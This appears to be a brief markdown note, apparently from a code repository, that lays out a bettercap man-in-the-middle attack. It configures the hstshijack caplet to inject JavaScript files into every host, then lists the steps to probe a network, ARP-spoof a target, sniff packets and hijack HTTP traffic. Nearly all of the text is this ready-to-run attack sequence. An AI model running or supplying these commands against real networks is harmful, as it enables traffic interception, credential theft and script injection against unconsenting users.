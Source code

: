 # hacking Javascript Injection

## hstshijack.cap

```sh
set hstshijack.payloads *:/injection1.js, *:/injection2.js
```

## usage

```sh
bettercap -iface eth0

net.probe on
net.show

set arp.spoof.fullduplex true
set arp.spoof.targets [target ip]

arp.spoof on # ARP Spoofing 시작
net.sniff on # 패킷 스니핑 시작

hstshijack/hstshijack # HTTP Host Hijacking
```
